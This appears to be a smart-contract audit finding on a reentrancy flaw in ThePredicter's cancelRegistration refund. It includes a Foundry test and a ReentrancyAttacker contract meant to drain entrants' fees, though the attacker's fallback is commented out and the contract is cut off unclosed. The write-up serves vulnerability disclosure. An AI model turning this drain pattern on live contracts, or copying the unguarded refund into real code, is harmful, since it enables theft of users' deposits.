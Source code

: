 A player who has entered the raffle could have a `fallback`/`recieve` function that calls the `ThePredicter::cancelRegistration` function again and claim another refund. They could continue the cycle till the contract balance is drained.

## Impact : All fee paid by  entrants could be stolen by the malicious participant.

## Proof Of Concept : Place the following into `ThePredicter.test.sol`

```solidity
function testReentrancycancelRefund() public {
        //three player enterd the betting contract and there status will be in pending state.
        for (uint160 i = 0; i < 3; i++) {
            hoax(address(i), 0.04 ether);
            thePredicter.register{value: 0.04 ether}();
        }
        console.log("current balance of contract", address(thePredicter).balance); //0.120000000000000000

        ReentrancyAttacker attackerContract = new ReentrancyAttacker(thePredicter);
        address attackUser = makeAddr("attackUser");
        console.log("address of attackuser", attackUser);
        vm.deal(attackUser, 0.04 ether);

        uint256 startAttackerContractBalance = address(attackerContract).balance;
        uint256 startingContractBalance = address(thePredicter).balance;

        console.log("starting attacker contract balance", startAttackerContractBalance);
        console.log("starting contract balance", startingContractBalance);

        vm.prank(attackUser);
        attackerContract.attack{value: 0.04 ether}();

        console.log("ending attacker contract balance", address(attackerContract).balance);
        console.log("ending contract balance", address(thePredicter).balance);
    }
```

## And the below given contract as well

```Solidity
contract ReentrancyAttacker{
    ThePredicter public thePredicter;

    constructor(ThePredicter _thepredicter) {
        thePredicter = _thepredicter;
    }

    function attack() external payable {
        thePredicter.register{value: 0.04 ether}();
        thePredicter.cancelRegistration();
    }

    function stealmoney() internal {
        if (address(thePredicter).balance > 0) {
            thePredicter.cancelRegistration();
        }
    }

    // fallback() external payable {
    //     stealmoney();
    // }
```